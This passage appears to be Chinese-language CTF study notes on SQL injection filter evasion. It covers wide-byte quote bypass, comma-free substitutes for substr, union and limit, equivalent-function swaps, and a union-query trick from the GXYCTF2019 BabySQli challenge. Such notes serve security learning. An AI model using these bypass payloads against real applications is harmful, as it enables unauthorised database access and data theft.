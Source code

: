 ```sql
引号连同引号内内容一起转为十六进制
宽字节绕过：
    # 过滤单引号时
    %bf%27 %df%27 %aa%27
%df\’ = %df%5c%27=縗’
```

#### ，过滤绕过

- ，被过滤会影响许多函数的使用,特别是盲注需要用到很多函数都需要逗号
- bypass：

```sql
from pos for len
join
关键字 like(提取子串的函数中的逗号 select ascii(substr(user(),1,1))=114; => select user() like "r%")
关键字 offset(limit 1,2 => limit 1 offset 2)
```

eg:

```sql
from pos for len 代替 ，
原本的substr函数：           select substr("string",1,3); 
用from pos for len代替逗号： select substr("string" from 1 for 3);
```

```sql
原语句：union select 1,2,3
join 代替 ，：select * from users  union select * from (select 1)a join (select 2)b join(select 3)c;
```


#### 函数绕过

实质是找等价函数

```sql
sleep() => benchmark()
ascii() => ord()、hex()、bin() #不一定用ascii码，也可转为其他进制；但ord()于ascii()对中文处理不同
group_concat() => concat_ws()
user() => @@user  #全局变量
datadir => @@datadir #全局变量
```



## 一个关于联合查询的补充

最近刷题刷到的新知识，题目是[GXYCTF2019]BabySQli

- 知识点：在联合查询时，若查找的数据不存在，联合查询就会构造一个虚拟的数据：

![](https://i.loli.net/2021/03/05/XIoVNr9isYU35uT.png)

在search.php页面查看源代码，将其base32解码 -》base64解码即得查询语句：
`select * from user where username = '$name'`
![](https://i.loli.net/2021/03/05/xUTpE7qboR1mSyl.png)
